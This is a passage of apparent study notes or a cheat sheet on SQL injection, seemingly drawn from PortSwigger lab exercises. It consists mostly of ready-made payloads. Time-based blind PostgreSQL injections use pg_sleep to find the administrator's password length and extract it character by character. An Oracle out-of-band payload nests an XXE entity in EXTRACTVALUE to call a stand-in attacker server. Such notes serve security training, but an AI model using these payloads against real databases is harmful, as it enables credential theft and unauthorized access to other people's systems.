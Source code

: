 

* **Identify the length of the password for a user called administrator:**

```
'%3b select case when (username='administrator’ and length(password)>1) then pg_sleep(10) else pg_sleep(0) end from users--
```
```
'%3b select case when ((select 'TEST’ from users where username='administrator' and length(password)>10)='TEST') then pg_sleep(10) else null end--
```




* **Extract the password from a user called administrator.**  The columns here are username and password.  The table is users.:

```
'%3b select case when (username='administrator’ and substring(password,1,1)='a’) then pg_sleep(10) else pg_sleep(0) end from users--
```
```
'%3b select case when (substring((select password from users where username ='administrator'),1,1)='f') then pg_sleep(10) else null end--
```



<br>

#### SQLi Out of Band Interaction

* **Example:  Out of Band Interaction**

* https://portswigger.net/web-security/sql-injection/cheat-sheet#dns-lookup

* Here we are using a method called extractvalue(), that takes in a XML type instance and XPath expression(this argument doesn't matter much it just needs to be there to execute correctly).


* An XXE payload using a parameter entity called remote is used, that will reach out to our Burp Collaborator.

    * Oracle DB:

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//ATTACKER-SERVER/">+%25remote%3b]>'),'/l')+FROM+dual--
```

    * Decoded Payload:



```
' UNION SELECT extractvalue(
xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://ATTACKER-SERVER/"> %remote;]>
')
,'/1') 
FROM dual--
```
